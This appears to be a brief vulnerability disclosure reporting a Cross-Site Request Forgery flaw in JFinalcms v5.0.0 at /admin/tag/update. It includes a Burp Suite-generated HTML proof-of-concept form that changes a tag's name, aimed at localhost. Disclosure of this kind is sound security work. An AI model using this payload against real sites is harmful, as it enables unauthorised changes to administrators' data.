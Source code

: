 ![图片](https://github.com/cui2shark/cms/assets/52313275/5106284d-cdc5-40cc-95da-f1beb07fcfbe)target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/tag/update

![图片](https://github.com/cui2shark/cms/assets/52313275/dfe9ab1a-2fa3-4be8-a9b4-ba40b5e53349)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/2958a8b9-0468-4aee-8a1b-fbaf04657335)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/update" method="POST">
      <input type="hidden" name="id" value="4" />
      <input type="hidden" name="name" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/324c4c8b-f32b-454f-911c-94848303f59f)
